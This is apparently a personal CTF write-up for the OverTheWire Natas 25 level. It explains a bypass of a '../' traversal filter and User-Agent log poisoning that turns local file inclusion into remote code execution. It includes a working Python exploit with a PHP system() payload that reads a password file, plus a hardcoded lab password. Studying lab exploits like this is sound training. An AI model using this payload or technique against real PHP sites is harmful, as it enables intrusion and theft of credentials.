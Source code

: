 
2024-07-25 18:59

Source: #web #py #natas 

Tags: [[LFI]]
### Natas25

- we have a page with some quote written on it and a language dropdown with `de` and `en` as 2 options 
- a function is called that sets the language - in that function a `safeinclude` named function is called that takes a filename as input and checks for directory traversal
- The `safeinclude` function replaces instances of `../` with empty strings and generates a log file in a specified path which is vulnerable 
- the `safeinclude` function also checks if "natas_webpass" is in the filename, 

Try directory traversal in a way like - `..././` so even if `../` is replaced with `""`  the remaining still equals  `../`
we can use this technique to get access to everything in the file system **including the log files** 

because we can control what this HTTP user agent is (that is input for us) we can modify that HTTP header so because we're including this file and because it's being spat out from the web server, that is looking at PHP code normally right we've got notices and warnings and all these other issues that are coming through what if we put PHP code as our user agent 

we'll be able to read it because we can specify we want our user agent to be the string which will get injected into that log entry and will be able to read because of local file inclusion and then it'll evaluate that PHP and give us remote code execution( [[RCE]]) with this .

```
import requests
username = 'natas25'
password = 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws'

url = 'http://natas25.natas.labs.overthewire.org/'
session = requests.Session()

headers = {"User-Agent": "<?php system('cat /etc/natas_webpass/natas26');?>"}

response = session.get(url,auth=(username,password))

response = session.post(url,headers=headers,data={"lang": "..././..././..././..././..././/var/www/natas/natas25/logs/natas25_"+session.cookies['PHPSESSID']+".log"},auth=(username,password))

print(response.text)
```

### References
https://www.youtube.com/watch?v=K1rBD0lJ0o8